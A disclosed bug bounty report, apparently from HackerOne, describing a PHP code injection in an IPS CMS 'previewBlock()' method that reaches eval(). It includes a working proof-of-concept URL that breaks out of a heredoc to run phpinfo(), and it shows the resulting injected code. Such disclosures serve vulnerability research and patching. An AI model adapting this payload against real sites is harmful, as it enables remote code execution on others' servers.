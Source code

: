 # PHP Code Injection through "previewBlock()" method

## Report Details
- **Report ID**: 1092574
- **URL**: https://hackerone.com/reports/1092574
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-02-02T00:04:38.493Z
- **Disclosed**: 2021-05-28T16:50:01.312Z

## Reporter
- **Username**: egix
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ips

## Vulnerability Information
**Summary:**
The vulnerability exists because the `IPS\cms\modules\front\pages\_builder::previewBlock()` method allows to pass arbitrary content to the `IPS\_Theme::runProcessFunction()` method, which will be used in a call to the `eval()` function. This can be exploited to inject and execute arbitrary PHP code.

**Steps To Reproduce:**

- Login as an user with permission to manage the sidebar 
- Browse to the following URL:

```
http://[host]/[ips]/index.php?app=cms&module=pages&controller=builder&do=previewBlock&block_plugin=stats&block_template_use_how=copy&block_plugin_app=core&_sending=block_content&block_content=RCE%0ACONTENT;}}phpinfo();die;/*
```

- This will result in the following PHP code to be passed to the `eval()` function from the `IPS\_Theme::runProcessFunction()` method:

```
namespace IPS\Theme;
class class_content_template_for_block_
{
	function run(  ) {
		$return = '';
		$return .= <<<CONTENT

RCE
CONTENT;}}phpinfo();die;/*
CONTENT;

		return $return;
}}
```

- As a result, the `phpinfo()` function will be executed

## Impact

A malicious user might be able to inject and execute arbitrary PHP code. Successful exploitation of this vulnerability requires an account with permission to manage the sidebar (such as a Moderator or Administrator) and the "cms" application to be enabled.

## Attachments
No attachments
